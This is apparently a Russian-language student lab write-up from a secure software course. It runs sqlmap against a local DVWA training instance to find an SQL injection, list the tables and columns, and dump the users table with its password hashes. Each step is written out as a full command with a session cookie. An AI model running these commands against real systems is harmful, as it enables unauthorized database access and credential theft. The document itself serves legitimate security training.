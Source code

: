 ### Используем команду для поиска SQL-инъекций

```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -p 'id' --dbms='mysql' --level=3
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/c76a701b-778f-4aea-9240-fa2c87a10fa2)

 
### Определим таблицы в базе данных dvwa
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa --tables
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/6a2aa11a-2270-41dc-9b91-e08e23e9d399)

### Получим все колноки в таблице users
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa -T users –column
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/ed8bac6a-d45c-4583-afd1-6d11a1558753)

### Выведем соержимое таблицы в который хэш паролей взламывается для получения результата:
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa -T users -C user,password --dump
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/47112109-5128-470e-bbd1-89388be04283)





